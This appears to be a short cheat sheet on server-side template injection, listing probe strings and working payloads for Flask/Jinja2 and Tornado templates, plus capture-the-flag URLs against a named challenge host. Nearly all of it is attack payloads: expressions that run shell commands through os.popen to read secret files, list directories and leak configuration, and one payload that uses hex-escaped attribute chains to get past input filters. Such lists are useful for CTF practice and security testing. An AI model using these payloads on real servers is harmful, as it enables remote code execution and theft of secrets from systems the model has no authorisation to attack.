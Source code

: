 ### Server Side Template Injection

---

Server side template injection is possible when an attacker injects template directive as user input that can execute arbitrary code on the server.
Example of a vulnerability : 

```py
{{5*5}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

---

#### Flask payload for Jinja2 : 
#### Config objects

The current configuration object : flask.config

Start with payload : `{{config.items()}}`
Then inject the second payload : `{{config.from_object('os')}}


```py
{{config.__class__.__init__.__globals__['os'].popen('cat flaskr/protected/burdellsecrets.txt').read()}}
{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}
{{config}}
```

---

#### Tornado payload

```py
{%import%20os%}{{os.popen("ls").read() }}
{% import os %}{{ os.popen("ls").read() }}
{{globals()}}
{% import os %}{{os.getcwd()}}
{% import os %}{{os.listdir(/home/tornado)}}
{% import os %}{{os.system(r"lookatme.txt")}}
{{help(object name)}}

```

```py
ctf payloads

http://chall.battlectf.online:8085/?capital={{%20().__class__.__base__.__subclasses__()[354](%22cat%20flag.txt%22,%20shell=True,%20stdout=-1).communicate()[0].strip()}}

SSTI with bypass
http://chall.battlectf.online:8086/?capital={{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f%27)(%27os%27)|attr(%27\x70\x6f\x70\x65\x6e%27)(%27cat%20flag\x2etxt%27)|attr(%27read%27)()}}
```
